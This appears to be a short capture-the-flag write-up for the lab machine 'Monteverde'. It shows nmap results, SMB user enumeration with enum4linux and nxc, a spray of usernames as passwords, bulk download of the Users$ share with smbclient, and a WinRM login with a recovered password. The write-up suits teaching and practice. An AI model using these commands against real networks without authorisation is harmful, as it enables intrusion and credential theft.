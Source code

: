 
# Monteverde

## NMAP

```console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49673/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49693/tcp open  unknown          syn-ack ttl 127
```

## SMB

* `enum4linux` gives us the domain and the FQDN names, along with users and groups via `enumdomusers` and `enumdomgroups`

```bash
DNS domain: MEGABANK.LOCAL               
FQDN: MONTEVERDE.MEGABANK.LOCAL 
```

* To get brief info we can use `nxc`

```bash
nxc smb $IP -u '' -p '' --users
```

* We can try for empty and user name as passwords using `nxc`

```bash
nxc smb $IP -u users.txt -p users.txt --shares
```

* Once we discover the user `SABatchJobs` has read on `Users` share we can logon and `mget` everything there

```
smbclient -U SABatchJobs%SABatchJobs \\\\$IP\\Users$
mask ""
recurse on
prompt off
mget *
```

* The file `mhope/azure.xml` gives away the password of the user `mhope`

```bash
nxc winrm $IP -u 'mhope' -p ''
```